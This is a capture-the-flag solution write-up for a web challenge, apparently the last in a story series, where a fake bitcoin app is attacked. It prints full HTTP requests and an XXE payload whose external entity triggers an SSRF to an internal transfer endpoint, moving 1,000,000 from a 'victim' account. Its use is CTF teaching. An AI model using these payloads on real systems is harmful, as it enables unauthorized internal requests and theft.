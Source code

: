 Solution
========

This challenge was the conclusion of a series of challenges, all connected together through a story, and so you need some information collected in the previous ones.

The first step is to login in the application and understand how it works. You can login using the credentials `nakemeigbo1@sapo.pt:h9AvhRDPDKSfxpBqfMer9FzD`, obtained in the previous challenge. You also know, from other previous challenge, that your victim is `bruce@shaydmail.org`.

Your account has already some balance, so you can use it to test the application. Transfer 1 bitcoin to `bruce@shaydmail.org` and notice the request being made:


```HTTP
POST /operations.php HTTP/1.1
Host: localhost:8050
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: */*
Accept-Language: pt,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost:8050/account.php
Content-Length: 253
Cookie: PHPSESSID=cda8441cc2e3122cfe048fcc587e0dff
DNT: 1
Connection: close

xml=%3C%3Fxml+version%3D'1.0'+encoding%3D'ISO-8859-1'%3F%3E%3Ctransfer%3E%3Cto%3Ebruce%40shaydmail.org%3C%2Fto%3E%3Cfrom%3Enakemeigbo1%40sapo.pt%3C%2Ffrom%3E%3Camount%3E1%3C%2Famount%3E%3Cid%3Ecda8441cc2e3122cfe048fcc587e0dff%3C%2Fid%3E%3C%2Ftransfer%3E

```

The `xml` parameter seens promissing. Here, url-decoded and with linebreaks for clarity:

```XML
<?xml+version='1.0'+encoding='ISO-8859-1'?>
<transfer>
    <to>bruce@shaydmail.org</to>
    <from>nakemeigbo1@sapo.pt</from>
    <amount>1</amount>
    <id>cda8441cc2e3122cfe048fcc587e0dff</id>
</transfer>
```

Playing with the XML to trigger an error message, for instance by deleting the `<to>`. You get an error message showing some code:

```PHP
Error near line 20:

if (!account->get($from)) {
   throw new Exception('Invalid account');
}

// transfer between 2 accounts
$endpoint .= "/transfer.php?from=$from&to=$to&amount=$amount&id=$id";
```

From this you infer the `POST` with the XML triggers a backend request to `$endpoint`. You don't know to which hostname is the request being made, but the obvious guess is `localhost`.

So, right now you must be thinking *What if I invoke that internal endpoint switching the values of `to` and `from`, with the `amount` of 1000000*?

You can do that with a combination of an [XXE](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) and a [SSRF](https://cfdb.io/Web/Server-Side%20Request%20Forgery).

It is easier to detect and validate the XXE fetching an external entity that points to a server you control, but we will go immediately for the solution:

```HTTP
POST /operations.php HTTP/1.1
Host: localhost:8050
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: */*
Accept-Language: pt,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost:8050/account.php
Content-Length: 523
Cookie: PHPSESSID=cda8441cc2e3122cfe048fcc587e0dff
DNT: 1
Connection: close

xml=%3C%3Fxml%20version%3D%271.0%27%20encoding%3D%27ISO-8859-1%27%3F%3E%3C!DOCTYPE%20xxx%20%5B%3C!ENTITY%20xxe%20SYSTEM%20%22http%3A%2F%2Flocalhost%2Ftransfer.php%3Fto%3Dnakemeigbo1%40sapo.pt%26from%3Dbruce%40shaydmail.org%26amount%3D1000000%26id%3Dcda8441cc2e3122cfe048fcc587e0dff%22%20%3E%5D%3E%3Ctransfer%3E%3Ca%3E%26xxe%3B%3C%2Fa%3E%3Cto%3Ebruce%40shaydmail.org%3C%2Fto%3E%3Cfrom%3Enakemeigbo1%40sapo.pt%3C%2Ffrom%3E%3Camount%3E1%3C%2Famount%3E%3Cid%3Ecda8441cc2e3122cfe048fcc587e0dff%3C%2Fid%3E%3C%2Ftransfer%3E
```

Decoded, with linebreaks:
```XML
<?xml version='1.0' encoding='ISO-8859-1'?>
<!DOCTYPE xxx [<!ENTITY xxe SYSTEM "http://localhost/transfer.php?to=nakemeigbo1@sapo.pt&from=bruce@shaydmail.org&amount=1000000&id=cda8441cc2e3122cfe048fcc587e0dff" >]>
<transfer>
    <a>&xxe;</a>
    <to>bruce@shaydmail.org</to>
    <from>nakemeigbo1@sapo.pt</from>
    <amount>1</amount>
    <id>cda8441cc2e3122cfe048fcc587e0dff</id>
</transfer>
```

The server replies with:

```
success. Refresh to update your balance
```

meaning the transfer in the legit part of the XML went through. The only way to get feedback about our piggybacked request to the internal endpoint is to refresh your browser window and see if the balance was affected.

![Success]
(screenshots/success.png)

And it was! Success!


Flag
----

`1195254`

